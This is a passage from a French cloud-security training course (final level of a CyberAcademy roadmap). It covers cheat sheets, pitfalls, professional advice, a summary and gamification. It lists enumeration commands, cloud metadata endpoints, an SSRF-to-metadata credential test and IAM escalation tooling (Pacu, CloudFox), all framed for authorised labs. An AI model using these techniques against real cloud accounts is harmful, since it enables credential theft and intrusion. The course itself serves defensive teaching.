| Lire un bucket anonyme | `aws s3 ls s3://N --no-sign-request` | `az storage blob list --account-name N --auth-mode anonymous` | `gsutil ls gs://N` |
| Énumérer les rôles | `aws iam list-roles` | `az role assignment list` | `gcloud iam roles list` |
| Métadonnées | `169.254.169.254` (jeton IMDSv2) | `169.254.169.254/metadata/instance?api-version=2021-02-01` (header `Metadata: true`) | `metadata.google.internal/computeMetadata/v1/` (header `Metadata-Flavor: Google`) |
| Journal des API | CloudTrail | Activity Log | Cloud Audit Logs |
| Détection | GuardDuty | Defender for Cloud | Security Command Center |

### Outils de scan et d'audit

| Outil | Usage | Commande de base |
| ----- | ----- | ---------------- |
| **Prowler** | Audit de posture multi-cloud (CSPM) | `prowler aws --profile X -M html,json -o /tmp/r` |
| **ScoutSuite** | Cartographie et évaluation (déprécié, encore pédagogique) | `scout aws --profile X` |
| **CloudFox** | Énumération de chemins d'attaque | `cloudfox aws --profile X enum` |
| **Pacu** | Post-exploitation / escalade IAM | `pacu` puis `exec iam__privesc_scan` |
| **kube-hunter** | Vulnérabilités Kubernetes | `kube-hunter` (local), `kube-hunter --remote IP`, `kube-hunter --cidr 10.0.0.0/24` |
| **kube-bench** | CIS benchmark Kubernetes | `kube-bench` |
| **trivy** | Scan d'images, fs, config, SBOM | `trivy image IMG`, `trivy fs .`, `trivy config .` |
| **grype** | Scan d'images/dépendances | `grype IMG` |
| **syft** | Génération de SBOM | `syft IMG -o cyclonedx-json > sbom.json` |
| **gitleaks** | Scan de secrets dans git | `gitleaks detect --source .` |
| **trufflehog** | Scan de secrets git | `trufflehog git https://github.com/org/repo` |

### Endpoints de métadonnées — résumé

| Fournisseur | URL | En-tête/authentification |
| ----------- | --- | ------------------------ |
| AWS IMDSv1 | `http://169.254.169.254/latest/meta-data/` | aucune |
| AWS IMDSv2 | `http://169.254.169.254/latest/meta-data/` | jeton `X-aws-ec2-metadata-token` (via PUT) |
| Azure | `http://169.254.169.254/metadata/instance?api-version=2021-02-01` | `Metadata: true` |
| GCP | `http://metadata.google.internal/computeMetadata/v1/` | `Metadata-Flavor: Google` |

### Checklist — modèle de responsabilité partagée

- [ ] Chaque ressource a un **propriétaire** et un niveau de responsabilité documenté.
- [ ] Les **données** sont chiffrées au repos et en transit ; les clés sont gérées (KMS/Key Vault).
- [ ] Les **buckets/containers** sont privés + Block Public Access (sauf cas explicitement public).
- [ ] **IAM** en least privilege : pas d'`Action: "*"`, pas de clé en clair, roles préférés.
- [ ] **CloudTrail/Activity Log/Cloud Audit Logs** actif dans toutes les régions.
- [ ] Un **CSPM** (Prowler/Security Hub/Defender for Cloud) tourne régulièrement.
- [ ] **IMDSv2** activé sur les instances ; pas de `169.254.169.254` en sortie.
- [ ] Images **scannées** (trivy/grype) et **SBOM** généré.
- [ ] **Secrets** dans un gestionnaire (SSM/Secrets Manager/Key Vault/Vault), rotation.
- [ ] K8s : **RBAC** audité, pas de pod privilégié, pas de socket Docker, secrets chiffrés.
- [ ] Réponse à incident définie (qui fait quoi) et testée.

### Pièges et astuces

- **Piège** : oublier `--no-sign-request` → tu ne vois que ton propre accès, pas l'accès anonyme.
- **Astuce** : `aws s3api get-bucket-policy-status` donne la preuve « IsPublic: true » à citer dans un rapport.
- **Piège** : croire qu'un Secret K8s est chiffré → il est en base64.
- **Astuce** : `kubectl auth can-i --list` montre TES droits RBAC en une seconde.
- **Piège** : scanner un compte de production « pour voir » → hors la loi sans mandat.
- **Astuce** : en cas de doute sur une clé, `aws sts get-caller-identity` répond « qui tu es ».
- **Piège** : déployer CloudGoat dans le compte principal → utiliser un **compte sandbox** et `destroy` après.
- **Astuce** : `trivy image --severity CRITICAL --exit-code 1` pour bloquer le build en CI.
- **Piège** : un `--ignore-unfixed` systématique masque les CVE réelles → l'utiliser avec discernement.
- **Astuce** : pour l'audit IAM complet : `aws iam get-account-authorization-details > iam.json`.

---

## Pièges fréquents

1. **Écrire `"Action": "*"` avec `"Resource": "*"`.** C'est l'erreur IAM n°1 : elle donne un accès admin déguisé. Elle arrive par copier-coller, « pour aller vite », ou par méconnaissance du least privilege. Réflexe : chaque politique liste des actions et des ressources **précises**, et un audit (Prowler) les traque.

2. **Croire que « le bucket est privé par défaut, donc rien à vérifier ».** Le défaut est privé, mais une policy copiée (`Principal: "*"`), une ACL publique ou un Block Public Access désactivé l'exposent. Réflexe : tester `--no-sign-request` et `get-bucket-policy-status` à chaque audit, activer Block Public Access.

3. **Mettre des secrets dans le code, l'image ou le commit.** `.env` poussé, clé AWS dans le code, mot de passe dans un `ENV` Dockerfile : chaque secret versionné est un secret compromis. Réflexe : gestionnaires de secrets (SSM/Secrets Manager/Key Vault/Vault), scanners gitleaks/trufflehog en CI, rotation en cas de doute.

4. **Oublier le modèle de responsabilité partagée.** « C'est le cloud qui gère » est le cri de ceux qui ont exposé leurs données. Réflexe : pour chaque ressource, se demander « qui configure et qui doit vérifier ? » — et vérifier.

5. **Tester sur des clouds de production.** Lancer Prowler, une énumération ou un SSRF sur un compte professionnel sans mandat écrit est une violation de la loi, même « juste pour voir ». Réflexe : labos dédiés, comptes sandbox, scope écrit ; jamais de clé réelle hors environnement autorisé.

6. **Oublier le SSRF vers les métadonnées.** Un pentester web trouve un SSRF et « le signale sans rien faire » ; le pentester cloud en fait une prise de contrôle (credentials IAM). Réflexe : tester systématiquement `169.254.169.254` (et les variantes Azure/GCP) quand une app accepte une URL — en labo.

7. **S'appuyer sur un RBAC K8s « par défaut ».** Le défaut n'est pas la sécurité : un seul `ClusterRoleBinding` vers `cluster-admin` (même temporaire) suffit. Réflexe : `kubectl auth can-i --list`, audit des bindings, least privilege par namespace, jamais de `cluster-admin` inutile.

8. **Ne jamais scanner les images.** Déployer une image de base vieille de deux ans, c'est déployer ses CVE. Réflexe : `trivy image`/`grype` à chaque build, `--exit-code 1` en CI, épingler les versions, générer un SBOM.

9. **Confondre « lister » et « lire » un bucket.** `s3:ListBucket` (voir les noms) et `s3:GetObject` (lire le contenu) sont deux permissions différentes ; un bucket peut autoriser l'une sans l'autre. Réflexe : tester les deux, et comprendre que le listage seul révèle déjà des informations.

10. **Désactiver les journaux ou ne jamais les regarder.** Sans CloudTrail/GuardDuty analysés, une attaque reste invisible des mois. Réflexe : CloudTrail dès le premier jour, GuardDuty + SIEM, et protéger les logs eux-mêmes (un attaquant qui efface les logs est invisible).

11. **Assumer qu'IMDSv2 règle tout.** IMDSv2 bloque les SSRF simples, mais pas les applications capables de faire des PUT et des requêtes avec en-têtes, ni les autres surfaces. Réflexe : IMDSv2 **et** filtrage des URLs sortantes **et** least privilege des roles d'instance.

12. **Croire qu'un conteneur est une forteresse.** L'isolation Docker repose sur le noyau Linux : socket monté, `--privileged`, capabilities SYS_ADMIN ou failles runc permettent l'escape. Réflexe : jamais de socket Docker monté, conteneurs non-root, pas de privilèges inutiles, détection runtime (Falco).

13. **Faire tourner CloudGoat dans le compte principal.** Les scénarios déploient de vraies failles et de vraies ressources facturées. Réflexe : compte sandbox dédié, `destroy` après chaque scénario, alerte de budget AWS.

14. **Répondre à un incident sans preuves.** « On a fermé le bucket, c'est réglé » : sans CloudTrail ni timeline, pas de mesure de l'impact ni de notification RGPD possible. Réflexe : documenter (commandes, sorties, ARN), puis corriger, puis prévenir.

---

## Conseils professionnels

1. **Applique le least privilege comme un dogme.** Chaque politique, chaque role, chaque binding : uniquement ce qui est nécessaire, rien de plus. C'est la défense qui plafonne tous les autres incidents (SSRF, secret volé, compte compromis). Les auditeurs pros vérifient ça en premier.

2. **Centralise et protège les logs.** CloudTrail multi-région, logs dans un bucket chiffré versionné, accès restreints, et un SIEM qui corrèle. Sans logs fiables, pas de détection, pas de réponse à incident, pas de conformité.

3. **Automatise les audits (CSPM) en continu.** Ne lance pas Prowler « une fois par an » : planifie-le (cron/CI) sur chaque compte, avec alertes sur les FAIL critiques. La sécurité cloud est un état continu, pas un audit ponctuel.

4. **Intègre le scan dans le CI/CD.** trivy/grype sur chaque build, `--exit-code 1` pour bloquer, SBOM systématique, et scan des secrets (gitleaks) à chaque push. La sécurité se déplace en amont : plus tôt elle est appliquée, moins elle coûte.

5. **Documente tout comme un rapport d'audit.** Chaque découverte : l'ARN de la ressource, la commande qui prouve, l'impact, la recommandation. Un pentester cloud se juge sur son rapport autant que sur ses exploits.

6. **Déploie des labos et détruis-les proprement.** CloudGoat dans un compte sandbox, `destroy` après usage ; minikube local ; Flaws.cloud public. Nettoyer évite les factures et les surfaces résiduelles.

7. **Suis les référentiels (CIS, NIST) et les chercheurs.** Le CIS Foundations (AWS/Azure/GCP/K8s) structure les audits ; les chercheurs (Rhino Security Labs, Scott Piper, Bishop Fox) publient les techniques avant les attaquants. Lis-les, c'est gratuit et décisif.

8. **Mesure ton temps de détection et ta couverture.** Un bon programme cloud se juge sur le « time to detect » (temps de détection) et sur le pourcentage de comptes/resources couverts par les audits automatiques. Améliore ces deux chiffres, pas seulement les outils.

9. **Garde un compte AWS sandbox dédié.** Pour les labos, les tests de politiques, les scénarios CloudGoat : jamais le compte de production. Le réflexe du bon artisan : un atelier séparé de la salle d'exposition.

10. **Reste à jour : le cloud bouge vite.** IMDSv2, Access Analyzer, les nouveaux services Azure/GCP, les CVE Kubernetes : la veille technique hebdomadaire fait partie du métier. Une vieille technique peut devenir non exploitable ; une nouvelle surface apparaît tous les mois.

---

## Résumé

Voici la synthèse visuelle du cours : pour chaque risque, le test à effectuer, l'outil à utiliser et la correction à appliquer.

| Risque | Test | Outil | Correction |
| ------ | ---- | ----- | ---------- |
| **Bucket S3/Blob/GCS public** | `aws s3 ls s3://N --no-sign-request` | AWS CLI, Prowler (`s3_bucket_public_access`) | Block Public Access, retirer `Principal: "*"`/ACL |
| **Politique IAM trop large** | `aws iam get-account-authorization-details` | Prowler, CloudFox, Pacu (`iam__privesc_scan`) | Least privilege, permission boundaries, SCP |
| **SSRF vers métadonnées** | `curl .../latest/meta-data/` via l'app | curl, Burp/ZAP | IMDSv2, filtrage URLs sortantes, roles minimaux |
| **Clé/secret exposé** | recherche GitHub, `gitleaks detect`, `git log -p` | gitleaks, trufflehog | Révocation + rotation, gestionnaire de secrets |
| **Image vulnérable** | `trivy image IMG` | trivy, grype | Scan CI (`--exit-code 1`), base à jour épinglée, SBOM |
| **K8s API exposé / RBAC laxiste** | `kube-hunter`, `kubectl auth can-i --list` | kube-hunter, kube-bench, kubectl | Auth forte, RBAC strict, bindings audités |
| **Container escape** | vérifier socket/capabilities | docker, trivy config | Pas de socket monté, non-root, pas de `--privileged` |
| **Account compromis (crypto-mining)** | `aws guardduty list-findings` | GuardDuty, CloudTrail, SIEM | Playbook SOC : isolement, révocation, revue IAM |

**Le mantra du niveau 11 :** *Le cloud n'est pas un serveur, c'est un système de permissions.* Chaque brique (bucket, role, cluster, fonction) est une porte ; chaque porte a une politique ; chaque politique se teste. La sécurité cloud se joue au niveau de la **configuration** — et la configuration, c'est toi.

---

## Progression

### Ce que tu maîtrises maintenant

- **Concepts** : modèles de service (IaaS/PaaS/SaaS), modèle de responsabilité partagée, fondamentaux AWS/Azure/GCP et leurs équivalences.
- **IAM** : users, groups, roles, policies, STS ; vous lisez et écrivez une politique JSON, vous appliquez le least privilege, vous connaissez les techniques d'escalade documentées (créer une clé, attacher une politique, rollback de version, PassRole, AssumeRole).
- **Audit et pentest cloud** : énumération (AWS CLI), posture (Prowler, ScoutSuite), chemins d'attaque (CloudFox), exploitation (Pacu) ; vous interprétez un rapport PASS/FAIL.
- **SSRF → métadonnées** : vous déroulez la chaîne complète (SSRF → `169.254.169.254` → credentials → S3) et vous connaissez IMDSv2, les en-têtes Azure/GCP et les défenses.
- **Conteneurs et Kubernetes** : architecture (control plane, nodes, pods), RBAC, secrets, kube-hunter, trivy ; vous reconnaissez les attaques (API exposé, RBAC laxiste, secret dans le pod, container escape).
- **Supply chain et secrets** : SBOM, trivy/grype/syft, gitleaks/trufflehog, gestionnaires de secrets (SSM, Secrets Manager, Key Vault, Vault).
- **Défense** : CloudTrail, GuardDuty, CSPM, SIEM, et les labos légaux (Flaws.cloud, CloudGoat, minikube, TryHackMe Cloud).

### Et maintenant ?

Tu as validé les 12 niveaux de la roadmap CyberAcademy (0 → 11) : tu as couvert le socle, le réseau, le web, le pentest, le CTF, le bug bounty, l'Active Directory, le red team et le cloud. La suite dépend de tes objectifs de carrière :

- **Certifications** : les certifications cloud sécurité sont la suite naturelle — **AWS Security Specialty (SCS-C02)**, **Microsoft Security (AZ-500)**, **Google Professional Cloud Security Engineer** (CCSP si tu vises un profil international). Tu as déjà les fondations techniques ; il reste la pratique des questions de certification.
- **Spécialisation** : Kubernetes (CKS, Certified Kubernetes Security Specialist), DevSecOps (conteneurs, CI/CD, IaC), ou sécurité serverless. Le cloud est un océan : choisis une profondeur.
- **Entraînement continu** : Flaws2.cloud, tous les scénarios CloudGoat, les salles TryHackMe cloud avancées, et les CTF cloud (ex. AWS CTF d'école).
- **OSCP / examens offensifs** : si tu vises l'offensif pur, l'OSCP (Offensive Security Certified Professional) reste la référence des pentesters ; tes acquis de ce cours et des niveaux précédents t'y préparent directement.
- **Devenir mentor sur CyberAcademy** : tu as maintenant un parcours complet et documenté. Anime un niveau, crée des labos, ou aide les nouveaux à éviter les pièges que tu as toi-même rencontrés (section Pièges fréquents). Le mentorat est le meilleur moyen de verrouiller tes connaissances.



---

## Gamification

### XP et badge

| Élément | Valeur |
| ------- | ------ |
| **XP gagnés** | 2000 XP |
| **Badge** | ☁️ Cloudbreaker |
| **Temps** | 22 heures |
| **Niveau débloqué** | Certification de fin de parcours + badge final 🏛️ Archi-Cyber (parcours complet 0 → 11) |

### Succès débloquables

| Succès | Condition | Bonus XP |
| ------ | --------- | -------- |
| ☁️ **Premier bucket** | Détecter un bucket public (Flaws.cloud niveau 1) | +50 XP |
| 🔎 **Fouilleur de postures** | Lancer Prowler et interpréter 3 FAIL critiques | +50 XP |
| 🕳️ **SSRF Breaker** | Exploiter le SSRF vers les métadonnées et récupérer des credentials (labo) | +100 XP |
| 👑 **Escaladeur IAM** | Escalader des privilèges IAM dans CloudGoat | +100 XP |
| 🚢 **K8s Hunter** | Trouver une faiblesse avec kube-hunter sur minikube | +50 XP |
| 🛡️ **Casseur de CVE** | Bloquer un build avec `trivy --exit-code 1` | +50 XP |
| 📜 **SBOMiste** | Générer un SBOM avec syft | +50 XP |
| 🧪 **Lab Master** | TP2 (Kubernetes) réussi sans indice | +100 XP |
| 💪 **Zero help** | Résoudre un mini challenge sans aucun indice | +50 XP |
| 🏛️ **Archi-Cyber** | Valider le parcours complet (quiz ≥ 80 % aux 12 niveaux) | +500 XP |

### Compétences acquises

À la fin de ce niveau, tu as validé les compétences suivantes (à mettre sur ton profil) :

| Compétence | Niveau atteint |
| ---------- | -------------- |
| Modèle de responsabilité partagée et architecture cloud | Autonome |
| IAM : politique, least privilege, escalade | Intermédiaire |
| Énumération et audit de posture (AWS CLI, Prowler, ScoutSuite) | Autonome |
| SSRF → métadonnées et vol de credentials | Autonome |
| Pentest cloud (CloudFox, Pacu) | Intermédiaire |
| Docker et Kubernetes (RBAC, secrets, kube-hunter) | Autonome |
| Supply chain et scan d'images (trivy, grype, SBOM) | Autonome |
| Gestion des secrets et détection (CloudTrail, GuardDuty, CSPM) | Intermédiaire |
| Azure / GCP par équivalence | Débutant confirmé |

> 📌 **Règle de validation** : comme pour tous les niveaux, le cours est validé avec un score ≥ 80 % au quiz. Les bonus XP des succès s'ajoutent aux 2000 XP de base. Avec la validation du niveau 11, **la roadmap 0 → 11 est complète** : la certification de fin de parcours et le badge 🏛️ Archi-Cyber sont débloqués.

---

*📄 Ce cours compte **2750 lignes** et contient bien les **16 sections** obligatoires du template CyberAcademy : Présentation, Objectifs pédagogiques, Vue d'ensemble, Théorie, Visualisation, Démonstration, Cas réels, Laboratoires, Mini Challenges, Quiz, Cheat Sheet, Pièges fréquents, Conseils professionnels, Résumé, Progression et Gamification.*
